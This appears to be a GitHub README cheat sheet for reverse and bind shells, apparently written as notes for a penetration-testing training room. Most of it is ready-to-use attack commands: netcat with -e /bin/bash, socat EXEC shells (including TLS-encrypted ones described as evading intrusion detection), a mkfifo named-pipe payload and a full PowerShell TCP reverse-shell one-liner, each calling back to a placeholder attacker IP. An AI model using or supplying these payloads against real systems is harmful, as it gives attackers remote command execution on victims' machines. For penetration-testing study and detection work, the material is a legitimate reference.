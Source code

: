 # Reverse-Bind-Shells-Cheat-Sheet

# What is a shell ?

Shell is what we use when interfacing with a Command Line environment (CLI). In other words, the common bash or sh programs in Linux are examples of shells, as are cmd.exe and Powershell on Windows. 
We can force the remote server to either send us command line access to the server (a reverse shell), or to open up a port on the server which we can connect to in order to execute further commands (a bind shell).

# Types of Shell

***Reverse shells*** are when the target is forced to execute code that connects back to your computer. Reverse shells are a good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target; however, the drawback is that, when receiving a shell from a machine across the internet, you would need to configure your own network to accept the shell.

***Bind shells*** are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way. This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target.

 ## NETCAT
 
 ### Reverse Shell
 
 On the attacking machine:
 `nc -lvnp <port>` \
-l is used to tell netcat that this will be a listener \
-v is used to request a verbose output \
-n tells netcat not to resolve host names or use DNS. Explaining this is outwith the scope of the room. \
-p indicates that the port specification will follow. 
 
 On the target:
 ```nc <LOCAL-IP> <port> -e /bin/bash``` (for linux)
 
 ### Bind Shell
 
 On the attacking machine:
 ```nc <TARGET_IP> <port>```
 
 On the target:
 ```nc -lvnp <port> -e "cmd.exe"``` (for Windows)
 
 ## Netcat Shell Stabilisation
 
 _Technique 1: Python_
 
 `nc -lvnp <port>` \
 `python -c 'import pty;pty.spawn("/bin/bash")'` \
 `export TERM=xterm` \
 *ctrl + Z* and `stty raw -echo; fg` =>  This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process. \
 `nc -lvnp <port>` 
 Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.
 
 _Technique 2: rlwrap_
 
 rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with `sudo apt install rlwrap` \
 To use rlwrap, we invoke a slightly different listener: `rlwrap nc -lvnp <port>` \
 Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use stty raw -echo; fg to stabilise and re-enter the shell.
 
 ## Socat
 
 ### Reverse Shells
 
 On the attacking machine:
 `socat TCP-L:<port> -`
 
 On the target machine: \
 `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"` (for Linux target) \
 `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes` (for Windows target)
 
 ### Bind Shells
 
 On the attacking machine:
 `socat TCP:<TARGET-IP>:<TARGET-PORT> -`
 
 On tge target machine: \
 `socat TCP-L:<PORT> EXEC:"bash -li"` (for Linux target) \
 `socat TCP-L:<PORT> EXEC:powershell.exe,pipes` (for Windows target) 
 
 ### A fully stable Linux tty reverse shell
 
 On the attacking machine:
 `socat TCP-L:<port> FILE:`tty`,raw,echo=0`
 
 On the target machine:
 `socat TCP:<LOCAL-ip>:<PORT> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`
         pty; allocates a pseudoterminal on the target -- part of the stabilisation process \
         stderr; makes sure that any error messages get shown in the shell (often a problem with non-interactive shells) \
         sigint; passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell \
         setsid; creates the process in a new session \
         sane; stabilises the terminal, attempting to "normalise" it.
         
 ##  Socat Encrypted Shells
 
 One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result. 
 
 We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine: 

 `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
 
 This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly. 
 
 We then need to merge the two created files into a single .pem file: 
 `cat shell.key shell.crt > shell.pem`
 
 Now, when we set up our _reverse shell listener_, we use: 
 ```socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 FILE:`tty`,raw,echo=0``` 
 
 This sets up an OPENSSL listener using our generated certificate. verify=0 tells the connection to not bother trying to validate that our certificate has been     properly signed by a recognised authority. Please note that the certificate must be used on whichever device is listening. 
 
 To connect back, we would use:
 `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash` 
 
 The same technique would apply for a _bind shell_: 

Target: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes` 

Attacker: `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`
 
## Spceial Netcat Payload

### Reverse Shell

Attacker: `netcat -nlvp <port>`

Target: ```mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f``` 

### Bind Shell

Attacker: `netcat <TARGET-IP> <PORT>`

Target: ```mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f``` (The command first creates a named pipe at /tmp/f. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into sh, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.)

### Powershell Reverse Shell

Attacker: `netcat -lnvp <PORT>`

Target: ```powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"```
